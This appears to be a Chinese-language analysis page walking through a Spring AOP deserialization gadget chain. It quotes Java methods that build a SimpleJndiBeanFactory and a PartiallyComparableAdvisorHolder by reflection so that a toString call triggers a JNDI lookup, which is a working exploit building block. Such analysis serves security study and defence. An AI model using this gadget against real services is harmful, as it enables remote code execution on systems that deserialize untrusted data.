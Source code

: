 ```java
public static BeanFactory makeJNDITrigger ( String jndiUrl ) throws Exception {
    SimpleJndiBeanFactory bf = new SimpleJndiBeanFactory();
    bf.setShareableResources(jndiUrl);
    Reflections.setFieldValue(bf, "logger", new NoOpLog());
    Reflections.setFieldValue(bf.getJndiTemplate(), "logger", new NoOpLog());
    return bf;
}
```

```java
public void setShareableResources(String... shareableResources) {
    this.shareableResources.addAll(Arrays.asList(shareableResources));
}
```

 - 继续跟进`SpringPartiallyComparableAdvisorHolder#makeBeanFactoryTriggerPCAH`方法, 先创建`BeanFactoryAspectInstanceFactory`的实例化对象, 并将`bf`变量和`name`分别反射赋值到`beanFactory`和`name`中. 接着创建`AbstractAspectJAdvice`对象, 将`aspectInstanceFactory`的值, 设置为`aif`变量对象进行传递. 并将`advice`的`declaringClass`、`methodName`、`parameterTypes`分别设置为`Object.class`、`toString`、`new Class[0]`, 创建`AspectJPointcutAdvisor`对象, 将前面设置了一系列值的`advice`放置到`advisor`对象的`advice`变量中. 最后创建`org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder`对象, 将`advisor`设置到该对象的`advisor`成员变量中, 并且调用`uf.makeToStringTriggerUnstable(pcah)`.

```java
public static Object makeBeanFactoryTriggerPCAH ( UtilFactory uf, String name, BeanFactory bf ) throws ClassNotFoundException,
        NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException, Exception {
    AspectInstanceFactory aif = Reflections.createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
    Reflections.setFieldValue(aif, "beanFactory", bf);
    Reflections.setFieldValue(aif, "name", name);
    AbstractAspectJAdvice advice = Reflections.createWithoutConstructor(AspectJAroundAdvice.class);
    Reflections.setFieldValue(advice, "aspectInstanceFactory", aif);

    // make readObject happy if it is called
    Reflections.setFieldValue(advice, "declaringClass", Object.class);
    Reflections.setFieldValue(advice, "methodName", "toString");
    Reflections.setFieldValue(advice, "parameterTypes", new Class[0]);

    AspectJPointcutAdvisor advisor = Reflections.createWithoutConstructor(AspectJPointcutAdvisor.class);
    Reflections.setFieldValue(advisor, "advice", advice);

    Class<?> pcahCl = Class
            .forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
    Object pcah = Reflections.createWithoutConstructor(pcahCl);
    Reflections.setFieldValue(pcah, "advisor", advisor);
    return uf.makeToStringTriggerUnstable(pcah);
}
```
